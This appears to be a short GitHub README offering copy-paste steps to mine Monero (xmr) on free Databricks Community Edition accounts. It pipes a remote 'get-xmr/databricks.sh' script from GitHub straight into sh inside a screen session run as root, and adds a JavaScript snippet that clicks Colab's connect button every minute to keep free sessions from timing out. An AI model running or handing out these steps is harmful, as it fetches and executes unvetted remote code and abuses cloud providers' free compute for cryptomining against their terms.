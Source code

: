 # Edit + Copy + Paste 
* Try Free [Databricks Community Edition](https://bit.ly/Databr1cks)
```markdown
cd /root
screen -R xmr
curl https://raw.githubusercontent.com/ashryr/get-xmr/main/databricks.sh | sh
```

```markdown
var startClickConnect = function startClickConnect(){ var clickConnect = function clickConnect(){ console.log("Connnect Clicked - Start"); document.querySelector("#top-toolbar > colab-connect-button").shadowRoot.querySelector("#connect").click(); console.log("Connnect Clicked - End"); }; var intervalId = setInterval(clickConnect, 60000); var stopClickConnectHandler = function stopClickConnect() { console.log("Connnect Clicked Stopped - Start"); clearInterval(intervalId); console.log("Connnect Clicked Stopped - End"); }; return stopClickConnectHandler; }; var stopClickConnect = startClickConnect();
```
